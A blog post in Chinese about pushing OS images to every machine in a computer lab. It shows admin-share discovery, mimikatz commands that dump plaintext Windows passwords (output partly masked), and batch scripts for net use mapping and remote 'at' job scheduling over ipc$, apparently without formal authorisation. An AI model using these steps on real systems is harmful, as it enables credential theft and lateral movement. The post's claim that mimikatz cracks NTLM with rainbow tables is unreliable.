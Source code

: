 
title: 批处理机房文件批量传输
date: 2015-10-17 00:00:00
tags: [bat]
categories: 
---

## <a name="89ucqc"></a>题记

计算机维护队将于次日在机房进行队员第一次培训会，培训会上的队员实操过程则需要使用到win7和PE镜像，工作人员（委员）不得不提前拷贝好镜像到每一台机子。于是便有了机房内通过网络批量传输文件的想法，实现之后可以大大减轻工作量，传输速度上瓶颈为100Mbps（机房网络配置），与普通USB3.0的U盘传输速率相比确实低了一大截，在传输速率上似乎不占优势，因此我们将多台主机作为源点传输数据，并行传输数据，大大提升了时间效率。

<div data-type="alignment" data-value="center" style="text-align:center">
  <div data-type="p">
    <div id="sdxuoz" data-type="image" data-display="block" data-align="center" data-src="https://cdn.yuque.com/yuque/0/2018/png/103147/1530282323573-b3ec65c0-c8fc-4dec-a92f-4da95966b6da.png" data-width="391">
      <img src="https://cdn.yuque.com/yuque/0/2018/png/103147/1530282323573-b3ec65c0-c8fc-4dec-a92f-4da95966b6da.png" width="391" />
    </div>
  </div>
  <div data-type="p"></div>
</div>

<!-- more -->

### <a name="hxqrtl"></a>机遇阶段

很凑巧，在同类型的机房中上实验课的时候一不小心执行了以下powershell指令：

```
Get-WmiObject -Class Win32_Share -Computername [computername]
# [computername] 代表主机名
```

意外的收获，默认共享居然没有被关闭，切安全策略~[偷笑]!

```
Name     Path                          Description
----     ----                          -----------
ADMIN$   C:\Windows                    远程管理
C$       C:\                           默认共享
D$       D:\                           默认共享
IPC$                                   远程 IPC
```

然而不出所料，我尝试通过net use空连接到旁边的机子时，被无情的拒之门外。要知道机房的电脑都是自带默认密码的。

```
net use z: \\[computername]\D$

为 '[computername]' 输入用户名:
发生系统错误 1223。
操作已被用户取消。
```

好吧，确实是个棘手的问题，因为不可能提前手动更改用户密码，因为机房的电脑自带还原程序（且不可恶意破坏），因此不得不废弃这个方案。于是编者剑走偏锋，掏出了一代神器[mimikatz\_trunk](http://blog.gentilkiwi.com/presentations)，利用这个神器(原理是通过彩虹表破解NTLM加密口令)可以轻易获取windows系统账户的明文密码。

#### <a name="uxiodh"></a>下载链接

* [Binaires](https://github.com/gentilkiwi/mimikatz/releases/latest)

* [Sources](https://github.com/gentilkiwi/mimikatz)

使用说明详参[README.md](https://github.com/gentilkiwi/mimikatz/blob/master/README.md)，下载后或编译后程序目录如下：



![image.png | left | 657x169](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282348556-f8855387-6730-4b14-ae05-6d72a8fecffa.png "")


我们接着运行如下命令即可获得账户明文密码：

```
# 提升权限
mimikatz # privilege::debug
Privilege '20' OK

# 获取密码
mimikatz # sekurlsa::logonpasswords

```

获取密码后部分结果如下：

```
# *是编者自己打上的马赛克，命令执行后输出的全为明文，下同
Authentication Id : 0 ; 298372 (00000000:00048d84)
Session           : Interactive from 1
User Name         : ******
Domain            : ****
Logon Server      : (null)
Logon Time        : 2015-10-16 20:54:11
SID               : S-1-5-21-*******-********-*********-1004
        msv :
         [00000003] Primary
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Flags    : I00/N01/L00/S01
         * NTLM     : 198469ad0**********ed7ddfadd94
         * SHA1     : 1018ac5781ab260******8b9d57fae11d3313a86
        tspkg :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ********
        wdigest :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ******
        kerberos :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : (null)
         * Domain   : MicrosoftOffice16_Data:SSPI:lxstart@outlook.com
         * Password : ******

```

### <a name="k6o6ss"></a>程序设计

既然获取到了一台机子的明文密码（账户名默认为Administrator），由于机房采用统一镜像进行安装，因此默认账户信息完全一致，那么，就可以跳到批量传输的阶段了。那么我们来做一个详尽的规划：[篇幅有限，下面只提供关键代码]

#### <a name="d8iolx"></a>获取局域网内的主机名列表

原理：通过net view获取局域网主机列表后进行字符串过滤筛选，得到最终的主机名列表并写入hosts.ini文件。

```
(for /f "eol=。 skip=3 tokens=1 delims=, " %%i in ('net view') do (
	for /f "tokens=1 delims=\ " %%a in ('echo %%i ^| findstr ^\') do (
		echo %%a
	)
)) >> hosts.ini
```

#### <a name="tnyvtu"></a>建立net use连接

```
# 将网络路径\\[hostname]\d$映射到z:\
net use z: \\[hostname]\d$ "******" /user:"administrator" /persistent:yes
```

在这之前需要先释放z:原本可能存在net use连接：

```
net use z: /delete
```

我们就可以直接通过访问z:来访问到目标机器的D盘根目录并进行文件操作了。

#### <a name="xotpxv"></a>复制文件

推荐使用xcopy命令，参数较简单易懂。

```
# 假设D:\已有win7.iso和PE.iso
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### <a name="odxkpc"></a>批量复制

由于我们已经获取到主机名列表，则我们可以串行批量复制文件。

```
for /f  %%a in (hosts.ini) do (
	echo 正在处理%%a
	call :copyer %%a
	:: 删除映射，释放连接
	net use z: /delete /y
)

# 定义函数
:copyer
net use z: \\%~1\d$ "******" /user:"administrator" /persistent:yes
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```

#### <a name="850vsl"></a>多主机并行处理

将程序放置到多台主机下运行，划分主机名列表片段到不同的主机，则可同时执行不同的文件批量复制的任务。

#### <a name="zdiwbh"></a>最佳方案

这里涉及一种类似于细胞分裂的算法技术，在上面原有的基础上添加更能提高效率的解决方案。假设每人负责部署一台主机（用于批量复制文件），复制完46台机子需要(46-6)/6=7轮，开始说表述的每台机子带宽有限（下面的流程图则以一台源主机为例解释），因此传输速度也难以提升。

更合理的解决方案就是利用所有空闲切有镜像的主机的网络带宽，思路图对比大致如下：

* 传统
    



![image.png | left | 686x459](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282360282-26242597-1bcc-4ccf-a856-19fbd7ba6d09.png "")


* 并行化



![image.png | left | 692x439](https://cdn.yuque.com/yuque/0/2018/png/103147/1530282373553-b57fcc30-f2fc-4d16-b7eb-20431a7cebad.png "")


关键要解决的问题是需要给下一台机器发送指令，分配给每台主机最优的复制队列：通过ipc\$获取远程at和time权限

```
# 建立ipc$连接
net use \\[hostname]\ipc$ "password" /user:"username"

# 获取主机时间，假设为19:00
net time \\[hostname]

# at 设置命令，假设transformListFile.bat包含了计算下一台机子需要复制到的目标队列的算法
at \\[hostname] 19:01 transformListFile.bat

```


